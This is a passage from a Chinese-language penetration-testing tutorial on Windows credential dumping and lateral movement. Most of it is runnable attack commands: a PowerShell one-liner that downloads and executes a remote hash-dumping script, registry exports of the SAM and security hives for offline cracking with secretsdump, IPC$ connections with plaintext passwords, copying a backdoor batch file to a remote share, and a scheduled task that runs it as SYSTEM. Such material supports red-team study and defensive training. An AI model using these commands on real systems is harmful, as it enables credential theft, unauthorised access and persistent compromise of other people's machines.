当目标系统存在 powershell 时，可直接一句 powershell 代码调用抓取，前提是目标可出外网，否则需要将 ps1 脚本放置内网之中。执行:

```
powershell IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1’);Get-PassHashes
```

**3.1.5Sam 破解**

使用注册表来离线导出 Hash

```
reg save HKLM\SYSTEM system.hiv    reg save HKLM\SAM sam.hiv    reg save hklm\security security.hiv
```

导出后可以使用 mimikatz 加载 sam.hiv 和 sam.hiv 来导出 Hash。或者使用 impacket 套件中 secretsdump.py 脚本去解密，也是可以的。

```
python secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL
```

### 3.2 横向移动

**3.2.1IPC + 计划任务**

通过 ipc$ 实现对 windows 默认共享的访问，配合计划任务执行后门程序获取服务器权限。

1、通过 net use 建立 IPC$ 连接

```
net use \\192.168.91.131\IPC$ /user:"administrator" "abc@123"
```

![](https://image.3001.net/images/20200304/15833018286050.png!small)

2、利用 copy 上传后门文件

> copy D:\test.bat [\\186.64.10.13\c$](file://186.64.10.13/c$)

![](https://image.3001.net/images/20200304/15833018404700.png!small)

3、创建计划任务执行后门程序

```
schtasks /create /s 186.64.10.13 /u Administrator /p Admin@123.. /ru "SYSTEM" /tn test /sc DAILY /st 22:18 /tr C:\\windows\\temp\\test.bat /F
```

创建计划任务，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行， /tr 指定运行的文件，/F 表示强制创建任务

```
schtasks /run /s 186.64.10.13 /u administrator /p Admin@123.. /tn test /i
```

运行任务，其中 / i 表示**立即运行**

```
schtasks /delete /s 186.64.10.13 /u administrator /p Admin@123.. /tn test /f
```

删除计划任务
